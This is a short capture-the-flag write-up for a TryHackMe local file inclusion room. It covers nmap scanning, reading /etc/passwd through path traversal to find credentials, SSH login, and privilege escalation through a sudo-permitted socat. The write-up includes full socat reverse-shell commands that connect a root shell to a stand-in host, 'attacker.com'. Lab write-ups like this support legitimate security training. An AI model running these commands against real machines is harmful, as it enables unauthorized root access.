





# tryhackme ctf local file inclusion challenge
my machine: 10.9.234.242

target ip: 10.10.251.102

## procedure
- do nmap scan `nmap -sC -sV 10.10.251.102`
    

- looking around some articles, I see a vector for localfile inclusion which is in the url of one the articles. Lets try to retrieve the /etc/passwd file by path traversing through the url. you'll see a comment for one of the user in the passwd file and its password
    

- let's try to ssh using the creds from passwd file. we're in! and you'll see the 1st flag within falconfeast directory.
    

- let's try to find vector for PE. type the command `sudo -l` it'll give us the socat tool that is similar to netcat
    

- since the current user can run sudo without password on socat. we can perform a reverse shell by typing the ff command:
    ```
    #attacker machine
    socat file:`tty`,raw,echo=0 tcp-listen:12345
    ```
    ```
    #target machine
    RHOST=attacker.com
    RPORT=12345
    sudo socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
    ```

- go back to your attack machine and now we got the root shell
    
    
